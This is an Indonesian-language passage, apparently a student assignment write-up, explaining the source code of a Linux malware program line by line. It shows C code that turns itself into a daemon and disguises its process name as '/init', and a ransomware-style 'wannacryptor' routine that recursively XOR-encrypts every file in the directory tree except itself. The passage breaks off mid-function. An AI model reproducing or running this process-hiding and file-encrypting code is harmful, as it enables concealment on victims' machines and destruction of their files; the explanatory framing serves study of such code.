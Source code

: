 
a. Malware ini bekerja secara daemon dan menginfeksi perangkat korban dan menyembunyikan diri dengan mengganti namanya menjadi /init.
```bash
if (argc > 0 && strcmp(argv[0], "init") == 0) {
        daemonize();
        chdir(cwd);
        prctl(PR_SET_NAME, (unsigned long) "/init", 0, 0, 0);
```
- `if (argc > 0 && strcmp(argv[0], "init") == 0)`: Mengecek apakah argumen pertama adalah "init".
- `daemonize();`: Mengubah proses menjadi daemon (background process).
- `chdir(cwd);`: Berpindah ke working directory awal
- `prctl(PR_SET_NAME, (unsigned long) "/init", 0, 0, 0);`: Menyamarkan nama proses di sistem menjadi "/init".

b. Anak fitur pertama adalah sebuah encryptor bernama wannacryptor yang akan memindai directory saat ini dan mengenkripsi file dan folder (serta seluruh isi folder) di dalam directory tersebut menggunakan xor dengan timestamp saat program dijalankan. Encryptor bekerja dengan mengubah folder dan isinya ke dalam zip lalu mengenkripsi zip tersebut. Menggunakan metode zip, folder yang dienkripsi harus dihapus oleh program.

```sh
void encrypt_all_files(const char *dirpath, const char *self_exe) {
    DIR *dir = opendir(dirpath);
    if (!dir) return;

    struct dirent *entry;
    char fullpath[1024];

    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        snprintf(fullpath, sizeof(fullpath), "%s/%s", dirpath, entry->d_name);

        struct stat st;
        if (stat(fullpath, &st) == -1) continue;

        if (S_ISDIR(st.st_mode)) {
            encrypt_all_files(fullpath, self_exe);
        } else if (S_ISREG(st.st_mode)) {
            if (strcmp(fullpath, self_exe) != 0) {
                printf("Enkripsi: %s\n", fullpath);
                simple_xor_encrypt(fullpath);
            }
        }
    }

    closedir(dir);
}
```
- Melakukan rekursi ke semua file dalam folder dirpath
- Mengenkripsi semua file reguler selain dirinya sendiri (self_exe)
- `if (S_ISDIR(st.st_mode)) {
        encrypt_all_files(fullpath, self_exe);
    } `Jika item adalah direktori, lakukan rekursi ke dalamnya.
- `else if (S_ISREG(st.st_mode)) {
        if (strcmp(fullpath, self_exe) != 0) {
            printf("Enkripsi: %s\n", fullpath);
            simple_xor_encrypt(fullpath);
        }
    }` Jika file biasa, dan bukan executable malware itu sendiri, tampilkan log dan enkripsi file.
```sh
void simple_xor_encrypt(const char *filename) {
    FILE *f = fopen(filename, "rb+");
    if (!f) {
```